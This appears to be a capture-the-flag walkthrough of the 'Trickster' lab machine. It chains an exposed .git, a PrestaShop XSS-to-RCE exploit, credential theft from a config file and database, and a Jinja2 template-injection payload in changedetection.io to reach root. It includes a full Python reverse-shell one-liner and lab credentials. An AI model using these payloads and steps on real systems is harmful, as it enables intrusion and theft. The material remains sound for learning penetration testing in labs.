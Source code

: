 1,Recon
port scan 
	22/tcp ssh `OpenSSH 8.9p1 Ubuntu 3ubuntu0.10`
	80/tcp http `Apache httpd 2.4.52`

Page check
![[Screenshot 2024-09-22 at 4.15.36 PM.png]]
By press the shop button, it would redirect to `http://shop.trickster.htb`

![](images/Pasted%20image%2020240922021800.png)

Then we can find the login page.
![](images/Pasted%20image%2020240922022017.png)
In this place, we did not have the valid credit, so we can try to create a account and check the `[PrestaShop™]` version.
And we have found the admin account email
```
Store information

Trickster Store  
United States  
Email us: [admin@trickster.htb](mailto:admin@trickster.htb)
```
But when we login successfully there is still nothing useful for us.
Then I want to try some existed vulnerability from exploit-db 
`Prestashop 1.7.7.0 - 'id_product' Time Based Blind SQL Injection`
But it seems not be our target.

Then I would want to check the other web-content.
```
ffuf -u http://shop.trickster.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt -fc 403

.git/HEAD               [Status: 200, Size: 28, Words: 2, Lines: 2, Duration: 32ms]
```
Then I found the `.git` and we can use `git-dumper`to download to local machine
`git-dumper http://shop.trickster.htb/.git/ ./git-repo-dump`
Then we can check this git repository:
![](images/Pasted%20image%2020240922024524.png)
The directory `admin634ewutrx1jgitlooaj` looks interesting.
Then let's check it from browser
`http://shop.trickster.htb/admin634ewutrx1jgitlooaj/`
![](images/Pasted%20image%2020240922024721.png)
We get the version `PrestaShop 8.1.5` and let's check its vulners.
```
CVE-2024-34716 – The Deceptive PNG Trap: Breaking Down the PNG-Driven Chain from XSS to Remote Code Execution on PrestaShop (<=8.1.5)
https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/
```
`https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php `
When we get the totally shit poc, we need to change it by ourselves.
Then we can run it  and open the `http.server`
```
python3 -m http.server 80

python3 exploit.py
[?] Please enter the URL (e.g., http://prestashop:8000): http://shop.trickster.htb
[?] Please enter your email: wither@trickster.htb
[?] Please enter your message: hello
[?] Please provide the path to your HTML file: ./exploit.html
[X] Yay! Your exploit was sent successfully!
[X] Once a CS agent clicks on attachement, you'll get a SHELL
```
Then we can get the shell as www-data:
```
connect to [10.10.16.15] from (UNKNOWN) [10.10.11.34] 52956
Linux trickster 5.15.0-121-generic #131-Ubuntu SMP Fri Aug 9 08:29:53 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 08:18:29 up  2:46,  1 user,  load average: 0.10, 0.11, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
james    pts/0    10.10.16.15      07:41    3:41   0.07s  0.07s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

we can make a stable shell by python
```
upgrade to PTY
python3 -c 'import pty;pty.spawn("bash")'
^Z
stty raw -echo; fg
```

When we get the shell, we need to enumerate the files and switch to the valid user shell
There is a config file with valid credit
```
/var/www/prestashop/app/config/parameters.php

'database_host' => '127.0.0.1',
    'database_port' => '',
    'database_name' => 'prestashop',
    'database_user' => 'ps_user',
    'database_password' => 'prest@shop_o',
    'database_prefix' => 'ps_',
    'database_engine' => 'InnoDB',
```

The  connect to mysql
```
use prestashop
select * from ps_employee;
james@trickster.htb | $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm
```

crack james hash => password:`alwaysandforever`
Then we can use ssh to login james shell.

3,shell as root
Fristly we would be like check `sudo -l`
`Sorry, user james may not run sudo on trickster.`

Then we would continue check the `ifconfig` and `netstat`
```
ifconfig

docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:75:61:fe:5d  txqueuelen 0  (Ethernet)
        RX packets 75763  bytes 6661585 (6.6 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 326059  bytes 16805840 (16.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.34  netmask 255.255.254.0  broadcast 10.10.11.255
        ether 00:50:56:b9:5d:9a  txqueuelen 1000  (Ethernet)
        RX packets 2183172  bytes 239295902 (239.2 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1479464  bytes 410014126 (410.0 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

netstat -ntlp

tcp 127.0.0.1:39345 
tcp 0.0.0.0:22 ssh
tcp 0.0.0.0:80 http
tcp 127.0.0.1:3306 mysql
```

In this place we found we have `docker ip` but we did not in the docker.So we guess there would be another docker service.But james is not in docker group
`uid=1000(james) gid=1000(james) groups=1000(james)`

So let's just check it by `ping` and `curl`.
```
ping 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.057 ms
64 bytes from 172.17.0.2: icmp_seq=2 ttl=64 time=0.051 ms
64 bytes from 172.17.0.2: icmp_seq=3 ttl=64 time=0.053 ms
^C
--- 172.17.0.2 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2040ms
rtt min/avg/max/mdev = 0.051/0.053/0.057/0.002 ms

curl 172.17.0.2
curl: (7) Failed to connect to 172.17.0.2 port 80 after 0 ms: Connection refused

```
That means there is another docker container exist but we did not know which port or service.
Let's make a bash script to check which port is open 
```
#!/bin/bash

# IP address
IP="172.17.0.2"

# Start and end port numbers
START_PORT=1
END_PORT=10000

# Loop to check the port range
for PORT in $(seq $START_PORT $END_PORT); do
  # Use curl to check the port
  curl --connect-timeout 1 $IP:$PORT > /dev/null 2>&1
  
  if [ $? -eq 0 ]; then
    echo "Port $PORT is open on $IP."
  fi
done

or just use nmap the 172.17.0.*
```

Then we get the target:
```
curl 172.17.0.2:5000
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/login?next=/">/login?next=/</a>. If not, click the link.
```

Let's use ssh to port forwarding
`ssh james@trickster.htb -L 5000:172.17.0.2:5000`
![](images/Pasted%20image%2020240922034210.png)
We have its version `changedetection.io v0.45.20`
Then we can search the exploit-db
`changedetection < 0.45.20 - Remote Code Execution (RCE)`

Of course, we can use james credit to login.

For triggering launch of Root PoC:
1,start a web-server on the machine "python3 -m http.server 8000"
2,On  the changedetect.io site "Add New Change" enter the URL http://172.17.0.1:8000" && "Edit > Watch"
![](images/Pasted%20image%2020240922040829.png)

3,Set the Notification Url to `"get://<attacker-ip>" `&& the Notification Body to the one from the PoC except change your to your IP & Port"

In this place, because of the jinja format, we can get the payload from `HackTricks`

`Body for all notifications ‐ You can use [Jinja2](https://jinja.palletsprojects.com/en/3.0.x/templates/) templating in the notification title, body and URL, and tokens from below.`

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{ x()._module.__builtins__['__import__']('os').popen("python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"listen_ip\",listen_port));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"/bin/bash\")'").read() }}{% endif %}{% endfor %}
```

4, Then we just need to open nc to handle it and press the `Send test notification` .
Then get the container shell, check the `.bash_histroy`
```
root@ae5c137aa8ef:~# cat .bash_history
cat .bash_history
apt update
#YouC4ntCatchMe#
apt-get install libcap2-bin
capsh --print
clear
capsh --print
cd changedetectionio/
```
Then we can see the really liked password `#YouC4ntCatchMe#`

Come to james shell, and su root. 
Get the root shell.

